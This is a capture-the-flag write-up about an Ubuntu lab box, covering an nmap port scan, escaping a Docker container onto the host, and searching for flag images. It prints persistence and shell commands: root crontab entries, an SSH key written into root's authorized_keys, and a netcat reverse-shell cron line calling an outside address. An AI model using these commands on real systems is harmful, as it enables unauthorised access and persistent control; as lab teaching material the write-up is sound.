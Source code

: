 # Ubuntu

## Port Scan

```
ec2-user@kali:~$ nmap 172.16.4.85 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-30 18:37 UTC
Nmap scan report for 172.16.4.85
Host is up (0.015s latency).
Not shown: 65525 closed ports
PORT      STATE SERVICE
25/tcp    open  smtp
79/tcp    open  finger
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8443/tcp  open  https-alt
8777/tcp  open  unknown
8880/tcp  open  cddbp-alt
9021/tcp  open  panagolin-ident
31063/tcp open  unknown
```

I also checked UDP for a small range, but connection was refused when trying to connect after the scan.

```
PORT    STATE         SERVICE
137/udp open          netbios-ns
138/udp open|filtered netbios-dgm
MAC Address: 0A:28:C5:43:46:2A (Unknown)
```

## Shell on Ubuntu host

One interesting discovery was being able to get a shell on the host system itself after escaping via the docker container on port 2222. Read the writeup for port 2222 (King of Diamonds) to see initial steps.

After mounting the host filesystem within the container, we would have read and write access to everything within the host. This mean that we could exploit this as we wish, and upgrade our container shell to a host shell!

There are various ways to do this but the way used in this case was to write some our own `cronjobs` and make them run as root. Because ssh shells are the nicest to use, we enable ssh on the host machine with the line:

`echo "* * * * * root systemctl start ssh.service" >> /host/etc/crontab`

where `/host` is the mount point used in the container escape. In my Kali instance I generated the key first with `ssh-keygen -t rsa -C "your_email@example.com"`. Then in `/host/root/.ssh/` we add our Kali ssh key to the `authorized_keys` file. An `echo` one liner can be used to do that `echo '<pub_key>' > authorized_keys`. Then we can simply ssh in with `ssh <user>@172.16.4.85` on port 22.

An alternative to the above if you wanted to get straight into a shell would be to just write a `nc` reverse shell and catch it with a listener e.g.

`echo "* * * * * root nc 1.2.3.4 555 -e /bin/sh" >> /host/etc/crontab`

We can now run docker commands, and can even execute commands to be run within the containers e.g. `docker exec -it <container id> bash>` to get a shell for that container. I don't have more images/logs of this unfortunately.

![docker containers](../docker_containers.png)

## Finding flags on the host

Now we had a shortcut to find all flags on for this box! Although I had already found most at this point.

The files used in docker images lived in `/var/lib/locker/aufs/` and you could simply run a `find` to search for flags. The names of them varied, but you could do various filters like finding all files and checking if each file contains a PNG header. An simple example would be:

```
find ./ -exec grep PNG {} +
Binary file .//5ofspades.png matches
Binary file .//9ofhearts.png matches
Binary file .//8ofdiamonds.png matches
```